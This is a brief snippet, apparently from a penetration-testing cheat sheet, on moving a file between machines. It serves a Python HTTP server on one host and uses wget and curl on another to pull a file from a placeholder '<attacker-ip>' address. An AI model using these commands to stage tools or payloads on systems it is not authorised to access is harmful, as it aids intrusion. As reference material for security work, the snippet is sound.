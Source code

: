 
# Python server for file transmission<a name="ft"></a>
If you need to transfer a file from one machine to another, you can follow this process:
```bash 
# machine 1
python3 -m http.server 8081

# machine 2
wget http://<attacker-ip>:<port>/<file>
curl http://<attacker-ip>:<port>/<file> -o <output-file>
```

